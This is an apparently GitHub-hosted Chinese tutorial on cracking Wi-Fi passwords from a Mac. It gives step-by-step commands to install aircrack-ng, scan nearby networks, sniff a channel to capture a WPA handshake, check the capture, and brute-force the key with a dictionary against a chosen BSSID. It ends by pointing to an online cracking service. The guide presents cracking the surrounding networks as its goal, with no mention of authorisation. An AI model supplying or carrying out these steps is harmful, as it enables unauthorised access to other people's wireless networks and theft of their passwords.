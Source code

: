 # MacOS Wi-Fi 密码破解

## 第一步：安装aircrack-ng

```bash
brew install aircrack-ng
```

## 第二步：获取本机无线网卡

通过ifconfig命令获取当前的网卡的名字， 我这边网卡名字为en0：

![1136594-20190509113023452-1542251724.png](img/1136594-20190509113023452-1542251724.png)

## 第三步：获取所有的无线网络

使用mac系统自带的airport工具， 查看当前的无线网络， 以及它们的相关信息

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

以下为我附近所有的wifi， 注意看表格， SSID， BSSID， CHANNEL，这些关键词都会在后面提到：

![1136594-20190509113135407-1304492280.png](img/1136594-20190509113135407-1304492280.png)

## 第四步：开始抓包 ， 收集监听周围无线网络的数据

参数en0是我电脑的默认网卡， 数字6是网卡需要监听的网络频道:

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6
```

开始监听以后， wifi的图标会发生改变

![497865-20170108232218441-1459515906.png](img/497865-20170108232218441-1459515906.png)

监听久一点， 然后使用ctrl+c停止监听， 系统会把监听到的数据保存到本地，数据保存到/tmp/airportSniffdaMCjH.cap文件中：

![497865-20170108231500300-323707699.png](img/497865-20170108231500300-323707699.png)

在监听的过程中如果有用户登陆这个wifi， 那么包就会被我们截获， 如果用户一直没有登陆到这个wifi， 我们就还要继续等待监听， 尽量在手机或者手提电脑所用高峰期开启捕获， 这样捕获握手（handshake）的几率比较高

## 第五步：查看cap文件中的数据是否被抓取到 handshake

```bash
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap
或者直接使用命令：
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap | grep "1 handshake"
```

如果要查询的路由列表的Encryption值为WPA(1 handshake) ，说明抓取成功， 否者跳到第四步，要重新抓取：

![1136594-20190509113336664-1554660098.png](img/1136594-20190509113336664-1554660098.png)

## 第六步：输入命令air-crack开始破解

-w 后面的dict.txt是字典文件，只要字典够大， 密码破出来应该指日可待， 字典可以自己去做，或者网上下载
-b 后面的参数bc:46:99:df:6c:72指的是网卡的BSSID， 最后面的一个文件路径是上一步监听到的数据

```bash
sudo aircrack-ng -w dict.txt -b bc:46:99:df:6c:72 /tmp/airportSniffdaMCjH.cap
```

破解成功以后，命令行会显示KEY FOUND ：

![1136594-20190509113431926-550261239.png](img/1136594-20190509113431926-550261239.png)

如果觉的自己弄个字典爆破很麻烦， 有些第三方的网站提供免费爆破，或者收费的爆破，https://gpuhash.me/

